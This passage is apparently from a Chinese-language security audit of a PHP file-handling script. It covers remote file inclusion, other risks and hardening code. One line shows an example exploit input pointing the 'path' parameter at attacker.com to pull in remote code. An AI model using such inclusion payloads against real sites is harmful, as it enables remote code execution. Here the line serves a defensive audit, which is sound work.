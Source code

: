 ```php
```
**参考**：[PHP文件上传安全实践](https://www.php.net/manual/en/security.files.php)

<a id="5-文件包含漏洞"></a>
### 5. 文件包含漏洞
**风险等级**：高危 ⚠️  
**成因**：通过`path`参数可能包含外部文件  
**潜在利用**：
```url
?path=http://attacker.com/malicious.txt
```
**危害**：远程代码执行  
**修复方案**：
```php
// 禁用allow_url_include
ini_set('allow_url_include', '0');

// 检查路径是否为本地文件
if (filter_var($path, FILTER_VALIDATE_URL)) {
    die("远程文件包含已禁用！");
}
```
**参考**：[PHP文件包含漏洞详解](https://www.cvedetails.com/vulnerability-list/vendor_id-74/product_id-128/PHP-PHP.html)

<a id="6-其他安全风险"></a>
### 6. 其他安全风险

| 风险类型             | 风险描述                 | 修复建议                          |
| -------------------- | ------------------------ | --------------------------------- |
| **信息泄露**         | 错误信息暴露路径         | 使用统一错误页面，禁用错误回显    |
| **CSRF攻击**         | 未验证操作来源           | 添加CSRF Token验证                |
| **open_basedir绕过** | 安全限制可能被绕过       | 结合realpath()检查                |
| **文件锁定问题**     | 并发写入可能导致数据损坏 | 使用flock()文件锁定               |
| **大文件处理**       | 大文件可能导致内存溢出   | 使用流处理替代file_get_contents() |

<a id="五安全加固方案"></a>
## 五、安全加固方案

### 1. 输入验证层
```php
// 路径白名单校验
function sanitizePath($input) {
    $base = __DIR__;
    $realPath = realpath($input);
    return ($realPath && strpos($realPath, $base) === 0) ? $realPath : $base;
}

// 文件名安全过滤
function sanitizeFilename($filename) {
    return preg_replace('/[^a-zA-Z0-9_\-\.]/', '', $filename);
}
```
